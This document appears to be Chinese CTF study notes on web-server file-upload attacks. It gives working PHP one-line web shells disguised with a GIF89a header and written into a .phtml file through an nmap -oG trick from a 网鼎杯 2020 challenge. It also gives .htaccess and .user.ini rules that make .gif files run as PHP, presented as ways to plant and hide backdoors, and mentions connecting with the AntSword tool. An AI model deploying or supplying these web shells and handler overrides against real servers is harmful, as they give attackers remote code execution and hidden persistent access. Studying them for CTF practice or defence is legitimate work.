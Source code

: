 ## 5.一句话木马

 方便绕过开头可以加上GIF89a gif的文件头

1. ```
   GIF89a
   
   <?php @eval($_POST[cmd]); ?>
   ```

   

2. 

<script language="php">@eval_r($_POST[cmd])</script>

3.[网鼎杯 2020 朱雀组]Nmap 1

Namp -oG将内容写入文件

短标签<?php?> 可以用<?=?>代替

```php
<?= @eval($_POST[cmd]); ?> -oG a.phtml
```



然后蚁剑连接





### 2、 .htaccess文件解析漏洞

php.ini是php的一个全局配置文件，对整个web服务起作用；而.user.ini和.htaccess一样是目录的配置文件。这里我们可以把.user.ini看作是用户自定义的一个php.ini，并且可以利用这个文件来构造后门和隐藏后门。

.user.ini。它比.htaccess用的更广，不管是nginx/apache/IIS，只要是以fastcgi运行的php都可以用这个方法。

第一种、虽然好用，但是会误伤其他正常文件，容易被发现

> <IfModule mime_module>
> AddHandler php5-script .gif          #在当前目录下，只针对gif文件会解析成Php代码执行
> SetHandler application/x-httpd-php    #在当前目录下，所有文件都会被解析成php代码执行
> </IfModule>

第二种、精确控制能被解析成php代码的文件，不容易被发现

> <FilesMatch "evil.gif">
> SetHandler application/x-httpd-php   #在当前目录下，如果匹配到evil.gif文件，则被解析成PHP代码执行
> AddHandler php5-script .gif          #在当前目录下，如果匹配到evil.gif文件，则被解析成PHP代码执行
> </FilesMatch>

第三种、同1没太大区别

> <IfModule mime_module>
> AddType application/x-httpd-php .gif
> </IfModule>
